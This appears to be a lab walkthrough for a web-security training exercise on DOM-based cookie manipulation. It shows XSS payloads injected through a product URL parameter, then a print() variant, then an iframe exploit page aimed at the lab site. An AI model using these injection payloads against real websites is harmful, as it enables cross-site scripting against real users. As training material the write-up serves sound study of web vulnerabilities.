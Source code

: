 Also there is a button to check the last viewed product:



![img](images/DOM-based%20cookie%20manipulation/5.png)


If we add a payload like this we should be able to execute a XSS attack:

```
'><script>alert(1)</script><a href='
```

```
/product?productId=1&a=b'><script>alert(1)</script><a href='
```

When we return to the home page we see the payload was successful:



![img](images/DOM-based%20cookie%20manipulation/6.png)


So we will change it to print the page:

```
/product?productId=1&a=b'><script>print()</script><a href='
```

I used this iframe and had to send it twice:

```
<head>
    <style>
        #target_website {
            position:relative;
            // width:100%;
            //height:100%;
            width:500px;
            height:600px;
            opacity:0.1;
            z-index:2;
            }
    </style>
</head>
<body>
    <iframe id="target_website" src="https://0a47002b042aee6c8072fd12001d0057.web-security-academy.net/product?productId=1&a=b%27><script>print()</script><a href=%27">
    </iframe>
</body>
```
